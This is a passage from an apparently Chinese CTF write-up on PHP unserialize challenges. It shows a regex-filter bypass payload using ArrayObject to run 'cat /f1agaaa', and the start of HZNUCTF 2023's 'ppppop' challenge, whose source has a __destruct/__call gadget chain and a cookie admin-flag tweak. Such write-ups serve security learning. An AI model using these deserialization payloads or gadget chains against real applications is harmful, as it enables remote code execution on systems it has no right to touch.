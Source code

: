 ```php
if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}


?>
```

[PHP ArrayObject serialize()实例讲解](http://www.manongjc.com/detail/30-ejjnhehhbxpwxqp.html)



payload

```
C:11:"ArrayObject":67:{x:i:0;O:7:"ctfshow":1:{s:7:"ctfshow";s:12:"cat /f1agaaa";};m:a:0:{}}
```

## HZNUCTF 2023

正好看到 NSS上了杭师大的题目，也没参加就复现一下

### ppppop

观察到cookie为base64编码的值，修改isadmin为true

```php
<?php
error_reporting(0);
include('utils.php');

class A {
    public $className;
    public $funcName;
    public $args;

    public function __destruct() {
        $class = new $this->className;
        $funcName = $this->funcName;
        $class->$funcName($this->args);
    }
}

class B {
    public function __call($func, $arg) {
        $func($arg[0]);
    }
}

if(checkUser()) {
    highlight_file(__FILE__);
    $payload = strrev(base64_decode($_POST['payload']));
    unserialize($payload);
}


```
